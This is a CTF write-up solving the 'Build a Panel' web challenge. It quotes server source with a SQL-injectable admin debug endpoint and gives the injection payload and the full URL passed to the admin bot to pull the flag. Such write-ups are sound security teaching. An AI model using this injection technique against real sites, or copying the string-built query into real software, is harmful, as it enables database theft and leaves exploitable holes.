

# Build a Panel
### Made by: Jim

Challenge text:
```
You can never have too many widgets and BAP organization is the future. If you experience any issues, send it here

Site: build-a-panel.dicec.tf
```
We were also given the source code; [build-a-panel](build-a-panel).

The website allows you to create widgets on your panel. You can give the widget a name and a type (`availableWidgets = ['time', 'weather', 'welcome']`). There is also an admin bot on this challenge. Nothing special strikes me while experimenting around, so I have a look at the [API's source code instead](build-a-panel/app/server.js). There is a lot of SQL going on, which in CTFs usually indicate SQL injection. The endpoint `/panel/add` is however injection secure.

```js
app.post('/panel/add', (req, res) => {
    const cookies = req.cookies;
    const body = req.body;

    if(cookies['panelId'] && body['widgetName'] && body['widgetData']){
        query = `INSERT INTO widgets (panelid, widgetname, widgetdata) VALUES (?, ?, ?)`;
        db.run(query, [cookies['panelId'], body['widgetName'], body['widgetData']], (err) => {
            if(err){
                res.send('something went wrong');
            }else{
                res.send('success!');
            }
        });
    }else{
        console.log(cookies);
        console.log(body);
        res.send('something went wrong');
    }
});
```

At the bottom I notice the endpoint `/admin/debug/add_widget` which seems to do the exact same thing as `/panel/add`, except it's vulnerable to SQL injection as user input is passed directly into the query string.

```js
app.get('/admin/debug/add_widget', async (req, res) => {
    const cookies = req.cookies;
    const queryParams = req.query;

    if(cookies['token'] && cookies['token'] == secret_token){
        query = `INSERT INTO widgets (panelid, widgetname, widgetdata) VALUES ('${queryParams['panelid']}', '${queryParams['widgetname']}', '${queryParams['widgetdata']}');`;
        db.run(query, (err) => {
            if(err){
                console.log(err);
                res.send('something went wrong');
            }else{
                res.send('success!');
            }
        });
    }else{
        res.redirect('/');
    }
});
```
At first this endpoint seems impossible to use as we don't know the secret token, however, we could give the URL to the admin bot and make it execute it for us. At the start of the [server.js](build-a-panel/app/server.js) file we see that there's a table `flag` created, and the flag is inserted into it. So for us to get the flag we have to insert a widget into our panel (our panelid), where the widgetname is the flag. This gives us the SQL query (panelid is our own which we see in our application cookies)
```sql
INSERT INTO widgets (panelid, widgetname, widgetdata) VALUES ('b9759a44-6e9a-4ee3-941c-984129c36188', (SELECT * FROM flag), '{"type":"weather"}');
```
Since we can control the GET parameters for all 3 values, our SQL injection would be in the `panelid` parameter, and would look like this:
```sql
', (SELECT * FROM flag), '{"type":"weather"}');--
```
The final URL is then `https://build-a-panel.dicec.tf/admin/debug/add_widget?panelid=b9759a44-6e9a-4ee3-941c-984129c36188', (SELECT * FROM flag), '{"type":"weather"}');--&widgetname=0&widgetdata=0`, or when URL encoded: `https://build-a-panel.dicec.tf/admin/debug/add_widget?panelid=b9759a44-6e9a-4ee3-941c-984129c36188',+(SELECT+*+FROM+flag),+'{"type"%3a"weather"}')%3b--&widgetname=0&widgetdata=0`. 

If we give this URL to the admin bot and check our panel, the flag is there.

